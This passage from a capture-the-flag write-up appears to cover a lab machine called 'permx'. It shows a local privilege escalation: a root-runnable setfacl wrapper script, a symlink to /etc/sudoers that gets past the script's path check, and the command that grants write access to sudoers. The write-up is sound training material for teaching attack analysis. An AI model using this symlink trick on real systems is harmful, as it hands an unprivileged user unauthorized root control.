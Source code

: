 >As I am using a kitty terminal, it is better to change the terminal to avoid problems when executing a command that is not compatible.

The result tells us that we have access to run that file as root, so let's see what this file does and how we can make use of it.

```sh
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
mtz@permx:~$ 
```

It seems that this script is used to change the permissions or give permissions to a target file, this is very interesting because we can abuse this by giving us full permissions on the sudoers file.

To do this we must create a symlink to the file in question and then give it the necessary permissions with the script that has elevated privileges so we can modify it and add us as a privileged user.

```sh
mtz@permx:~$ ln -s /etc/sudoers symlink
mtz@permx:~$ ls
symlink  user.txt
```

Now let's use the acl.sh file

```sh
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/symlink
mtz@permx:~$ ls
symlink  user.txt
```

It seems that everything went well, so now we can open the file with nano and give us elevated privileges.
